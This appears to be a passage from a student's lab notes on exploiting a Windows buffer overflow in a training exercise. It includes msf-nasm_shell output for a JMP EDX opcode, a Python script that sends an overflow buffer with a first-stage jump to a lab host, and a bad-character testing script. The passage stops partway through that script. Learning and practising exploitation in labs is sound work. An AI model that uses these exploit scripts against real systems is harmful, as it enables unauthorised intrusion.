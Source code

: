 The app crashes at EIP 59595959 (the Y's), and we see that EDX looks like a good place to put shellcode. Or is it... the address may not be good.

Get the opcode for JMP EDX
```plaintext
kali@kali:~$ msf-nasm_shell 
nasm > jmp edx
00000000  FFE2              jmp edx
nasm > 
```

Modify the code to replace the stack pointer to point to EDX.
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 3_first_stage_shellcode.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  filler = "B" * 2080
  eip = "Y" * 4
  first_stage = "\xff\xe2"  # JMP EDX -> ffe2
  nop_pad  = "\x90" * (2100 - len(filler) - len(eip) - len(first_stage))
  inputBuffer = filler + eip + first_stage + nop_pad

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

The app crashes at EIP 59595959 and ESP at 03D3FF88
![3635f04663a619c0bcb83a1acde2ff87.png](:/fd17833fb99646db8c3e2e90b8e9a97d)

We also confirm we see the JMP EDX code when we follow ESP 03D3FF88 in dump.
![eb8e55b2eadf234c2c7fb6356891aad2.png](:/80e1beb42dd5413c852f3ae05dde32ec)


# Identify bad characters
Bad chars are: **\x00\xc5**
The following script was used to check for bad characters, 14 characters at a time. We Follow in Dump the ESP and see if each character is there in the right sequence. If not, we know the bad character is the one not in sequence. Or sometimes the app crashes in a way that we can't follow the ESP at all
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 4_bad_chars.py 
#!/usr/bin/python
import socket

# Bad chars in this script are: \x00\xc5
badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e"
badchars = "\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c"
badchars = "\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a"
badchars = "\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38"
badchars = "\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46"
```